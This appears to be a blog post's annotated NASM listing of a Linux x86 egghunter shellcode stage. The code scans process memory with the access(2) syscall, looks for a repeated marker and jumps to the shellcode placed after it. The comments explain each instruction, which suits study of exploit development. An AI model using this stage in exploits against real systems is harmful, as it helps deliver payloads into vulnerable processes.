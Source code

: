 {% highlight nasm %}
  global _start
  section .text
    _start:
      ;; Clear out edx. We will use
      ;; this to keep track of the memory
      ;; that we are searching
      xor edx,edx
    initpage:
      ;; Initialize edx to PAGE_SIZE 0x1000 or 4096 bytes
      or dx,0xfff
    incpage:
      inc edx
      ;; Load the address 4 bytes past edx into ebx
      ;; We do this so we can compare 8 bytes
      ;; e.g w00tw00t
      lea ebx,[edx+0x4]
      ;; Push the access(2) syscall number onto the stack
      ;; This pushes a 32-bit or 4 byte value onto
      ;; the stack as 0x00000021
      push byte +0x21
      ;; Place the syscall number into eax
      ;; Since we used a push pop to set eax
      ;; we get the top 3 bytes zeroed out without
      ;; having to worry about what their values were previously
      ;; this saves a byte over xor
      pop eax
      ;; Call our access system call
      int 0x80
      ;; Look at the result of the syscall.
      ;; If it is  0xf2 which represents the low byte
      ;;of the EFAULT return value
      cmp al,0xf2
      ;; We looked at invalid memory so go back
      ;; and increment the page and start again
      jz initpage
      ;; Otherwise start looking for our marker
      mov eax,0x50905090
      ;; scasd compares the value in eax with
      ;; with the a double word pointed to by edi
      ;; as such, we move the address in edx into edi
      mov edi,edx
      ;; and compare our marker
      ;; scasd is auto incremented (or decremented)
      scasd
      ;; if it doesn't match, go increment our page
      ;; and try again
      jnz incpage
      ;; if it does match, fingers crossed...
      ;; check the next 4 bytes
      ;; Since scasd auto increments edi, we are
      ;; looking at edi+4 now
      scasd
      ;; if we don't have a match, no soup for us
      ;; increment our page and try again
      jnz incpage
      ;; if we had a match, scasd incremented edit
      ;; once again so when we jump there we should
      ;; be jumping to our shellcode!
      jmp edi
{% endhighlight %}
